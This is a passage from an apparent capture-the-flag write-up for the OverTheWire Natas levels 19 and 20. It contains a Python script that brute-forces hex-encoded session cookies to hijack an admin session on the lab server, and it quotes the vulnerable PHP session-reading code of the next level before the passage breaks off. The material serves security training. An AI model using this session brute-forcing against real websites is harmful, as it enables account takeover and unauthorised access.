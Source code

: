 So simple enough we can conclude that if we run through the numbers 0-640 we can find our admin session.
To do this we just change our code from the previous challenge to generate the new session id which is "number-admin"
Then convert it into hex.

{% highlight python %}
import time
import requests
from requests.auth import HTTPBasicAuth

for x in range(640):
    sessionid = str(str(x) + "-admin").encode("hex")
    print "Trying: " + sessionid + ": "+str(x)
    r = requests.get("http://natas19.natas.labs.overthewire.org/", auth=HTTPBasicAuth('natas19', 'natas19pass'), cookies={"PHPSESSID":str(sessionid)})
    print r
    if "You are an admin." in r.text:
        print "FOUND: " + str(x)
        break
{% endhighlight %}

After running this we are given a session id that contains our admin session. We just modify our cookie with this value and refresh our page and we are presented with our admin password.

### Natas 20
- - - - - - -

We are given only a simple field to change our name. As we change our name we immediately can tell our session id is not changing. So our previous attack might not be as useful.
The length of our sessionid is also pretty large if we allow it to generate it for us, so immediately we know a brute forcing method will not work.

{% highlight bash %}
function print_credentials() { 
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) { 
    print "You are an admin. The credentials for the next level are:<br>"; 
    print "<pre>Username: natas21\n"; 
    print "Password: <censored></pre>"; 
    } else { 
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21."; 
    } 
} 

function myread($sid) {  
    debug("MYREAD $sid");  
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) { 
    debug("Invalid SID");  
        return ""; 
    } 
    $filename = session_save_path() . "/" . "mysess_" . $sid; 
    if(!file_exists($filename)) { 
        debug("Session file doesn't exist"); 
        return ""; 
    } 
    debug("Reading from ". $filename); 
    $data = file_get_contents($filename); 
    $_SESSION = array(); 
    foreach(explode("\n", $data) as $line) { 
        debug("Read [$line]"); 
    $parts = explode(" ", $line, 2); 
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1]; 
    } 
    return session_encode(); 